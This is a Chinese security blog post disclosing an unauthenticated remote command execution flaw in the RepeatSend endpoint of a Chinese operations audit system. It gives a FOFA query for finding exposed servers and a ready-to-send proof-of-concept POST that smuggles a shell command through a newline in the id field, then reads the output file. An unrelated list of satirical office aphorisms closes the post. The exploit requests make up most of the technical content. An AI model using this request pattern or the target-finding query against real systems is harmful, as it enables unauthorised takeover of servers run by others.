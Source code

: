 #  上讯信息技术股份有限公司运维管理系统RepeatSend命令执行漏洞   
 sec0nd安全   2025-05-18 15:15  
  
   
  
> 字数 335，阅读大约需 2 分钟  
  
## 漏洞简介  
  
上讯信息运维管理审计系统 repeatsend 远程命令执行，未经身份验证的远程攻击者可利用此漏洞写入后门文件，执行任意命令，导致服务器被控。  
## FOFA  
```
body="default/getloginhtml"
```  
## POC  
```
POST /emailapply/RepeatSend HTTP/1.1Host: Content-Type: application/x-www-form-urlencodedConnection: closeUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.850.86 Safari/537.36id='%0id > 123.txt%0a'
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtBWfKzr6BWLso0xuwpGE8ibhavPG4Xn4QODibj6UzLvVZd9cD1U0sXpHjCU7N4BmFg9GKnURjDqicZ5g/640?from=appmsg "null")  
  
```
GET /123.txt HTTP/1.1Host: 
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtBWfKzr6BWLso0xuwpGE8ibhVBStvDkVoX3h3pHjYRRwuaow8vibXpWp5KCJxIgNOPUSKmiayxFrsANQ/640?from=appmsg "null")  
  
  
噢，对了这个漏洞没用到代码审计的技能，只不过是前人栽树后人乘凉罢了。  
  
懂的都懂  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtBWfKzr6BWLso0xuwpGE8ibhO1DeYbfwgA2sHgHtrh18fwKqjRqATlrd6xRbyzw1mBVaicNfsfUSUmA/640?from=appmsg "null")  
  
## 鸡汤  
- • 每个Excel单元格都是全景监狱的微型模型  
  
- • 在KPI炼金术里，灵魂正被批量转化为可交易金属  
  
- • 茶水间的窃语是福柯笔下的规训回音壁  
  
- • 周报里的虚假数据正在书写新资本论补遗  
  
- • 工位隔板构成汉娜·阿伦特式的平庸之恶矩阵  
  
- • 晋升阶梯的每一阶都浇筑着海德格尔说的"常人"骨灰  
  
- • 会议室的单向镜后，鲍德里亚的拟像正在直播  
  
- • 钉钉提示音是数字泰勒主义的弥赛亚召唤  
  
- • 年终奖数字成为存在主义焦虑的二进制封印  
  
- • 这场永续的办公室政治，本质是资本精心设计的斗兽场 placebo  
  
  
  
   
  
  
